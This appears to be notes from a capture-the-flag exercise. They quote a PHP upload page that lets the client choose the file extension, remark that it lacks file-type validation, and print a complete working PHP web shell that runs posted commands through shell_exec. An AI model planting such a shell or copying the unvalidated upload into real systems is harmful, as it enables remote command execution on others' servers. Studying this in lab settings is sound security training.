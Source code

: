 ```markup
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

No filetype valiation.  
Simple PHP shell

```php
<!-- By justin-p (https://raw.githubusercontent.com/justin-p/sec-stuff/master/php/simple_shell/simple_shell.php) based of https://github.com/artyuum/Simple-PHP-Web-Shell/ -->
<?php if (empty($_POST['cmd'])) {$cmd = "";} elseif (!empty($_POST['cmd'])) {$cmd = shell_exec($_POST['cmd']);} ?>
<form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST['cmd'])) {htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form>
<?php if (!$cmd && $_SERVER['REQUEST_METHOD'] != 'POST'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre> <?php elseif (!$cmd && $_SERVER['REQUEST_METHOD'] == 'POST'): ?><small>No results.</small> <?php endif; ?>
```
